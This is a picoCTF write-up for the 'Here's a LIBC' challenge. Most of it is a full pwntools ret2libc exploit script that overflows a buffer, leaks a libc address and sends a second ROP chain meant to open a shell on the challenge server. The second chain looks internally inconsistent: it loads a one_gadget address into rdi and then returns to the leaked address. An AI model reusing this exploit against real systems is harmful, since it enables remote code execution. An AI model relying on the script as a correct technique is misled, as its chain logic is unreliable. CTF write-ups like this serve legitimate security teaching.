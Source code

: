 # Here's a LIBC

Type/Tags : Binary Exploitation
Author : Madstacks

# Description
I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 23584

# Hints
PWNTools has a lot of useful features for getting offsets.

# Solution
Very standard ret2libc challenge with vuln being the vulnerable ELF executable and libc.so.6 being the version of libc used that is needed to exploit the challenge. You can learn about ret2libc challenges in a lot of places including LiveOverflow's videos on the topic, pwn.college, and here: https://research.801labs.org/stack-exploitation/

Final exploit script:

from pwn import *
p = remote('mercury.picoctf.net', 23584)
elf = ELF("./vuln")
libc = ELF("./libc.so.6")
rop = ROP(elf)

PUTS = elf.plt['puts']
MAIN = elf.symbols['main']
LIBC_START_MAIN = elf.symbols['__libc_start_main']

POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(PUTS))
log.info("__libc_start_main: " + hex(LIBC_START_MAIN))
log.info("pop rdi gadget: " + hex(POP_RDI))

#create the first rop chain to leak libc address
JUNK = ("A"*136).encode()
rop = JUNK
rop += p64(POP_RDI)
rop += p64(LIBC_START_MAIN)
rop += p64(PUTS)
rop += p64(MAIN)

p.sendlineafter("sErVeR!", rop)

p.recvline()
p.recvline()

leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))


libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

#second rop chain to jump to /bin/sh
rop2 = JUNK
rop2 += p64(RET)
rop2 += p64(POP_RDI)
rop2 += p64(libc.address + 0x10a45c)

#found by using one_gadget /bin/sh
#0x4f365
#0x4f3c2
#0x10a45c
rop2 += p64(leak)
p.sendlineafter("sErVeR!", rop2)
p.interactive()

# Flag
picoCTF{1_<3_sm4sh_st4cking_fb2de5a40ccfb50c}

